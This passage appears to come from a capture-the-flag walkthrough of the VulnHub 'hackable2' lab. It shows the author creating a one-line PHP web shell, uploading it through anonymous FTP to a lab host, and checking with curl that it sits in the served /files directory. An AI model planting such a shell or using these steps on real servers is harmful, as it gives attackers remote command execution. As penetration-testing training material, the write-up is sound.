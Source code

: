 I created a simple PHP web shell:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/hackable2]
└─$ echo '<?php exec($_GET["cmd"]); ?>' > shell.php
```

Then, I uploaded `shell.php` to the FTP server:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/hackable2]
└─$ ftp 192.168.1.23
Connected to 192.168.1.23.
220 ProFTPD Server (ProFTPD Default Installation) [192.168.1.23]
Name (192.168.1.23:zengla): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||44960|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 0        0             109 Nov 26  2020 CALL.html
226 Transfer complete
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||18277|)
150 Opening BINARY mode data connection for shell.php
100% |**************************************************************************************************************************|    29      314.66 KiB/s    00:00 ETA
226 Transfer complete
29 bytes sent in 00:00 (25.79 KiB/s)
ftp> exit
221 Goodbye.
```

I verified the upload by checking the `/files` directory in the browser (or with `curl`):

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/hackable2]
└─$ curl http://192.168.1.23/files/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html> <head>  <title>Index of /files</title> </head> <body><h1>Index of /files</h1>  <table>   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>   <tr><th colspan="5"><hr></th></tr><tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr><tr><td valign="top"><img src="/icons/text.gif" alt="[TXT]"></td><td><a href="CALL.html">CALL.html</a></td><td align="right">2020-11-26 13:02  </td><td align="right">109 </td><td>&nbsp;</td></tr><tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="shell.php">shell.php</a></td><td align="right">2025-07-15 12:13  </td><td align="right"> 29 </td><td>&nbsp;</td></tr>   <tr><th colspan="5"><hr></th></tr></table><address>Apache/2.4.18 (Ubuntu) Server at 192.168.1.23 Port 80</address></body></html>
```

